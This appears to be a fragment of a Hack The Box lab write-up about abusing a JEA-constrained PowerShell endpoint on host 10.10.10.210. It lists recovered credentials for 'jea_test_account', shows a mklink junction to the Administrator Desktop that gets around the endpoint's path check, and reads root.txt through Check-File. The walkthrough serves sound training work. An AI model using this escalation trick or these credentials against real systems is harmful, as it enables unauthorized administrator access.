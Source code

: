 Credentials found were: `jea_test_account:Ab!Q@vcg^%@#1`.

Short article to [JEA](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7.2) (Just Enough Administraton).

searching for jea_test_account yields few results

![picture 26](/assets/images/16c6a925c76b88bd3f0cf97d48c5476d24b4c26c391ff93c005fe480af46c06a.png)  

Both `jea_test_account` files are writable but they dont execute.

Creating symlink in order to exploit Check-Name in jea_test_account profile solves that issue:

![picture 27](/assets/images/e5263b3f089df3bca78bcae1c0a38eab091370da46d895319a7c6800fda235a0.png)  

```
[10.10.10.210]: PS>&{cmd /c mklink /J adm c:\Users\Administrator\Desktop}
Junction created for adm <<===>> c:\Users\Administrator\Desktop
```

## Reading the root.txt
```
PS C:\Users\hosoj> Enter-PSSession -Computer 10.10.10.210 -credential HTB\k.svensson -ConfigurationName jea_test_account -Authentication Negotiate

[10.10.10.210]: PS>Check-File C:\ProgramData\adm\root.txt
349ece0aac********0dd0f2a4115
```



[10.10.10.210]: PS>$env:Path
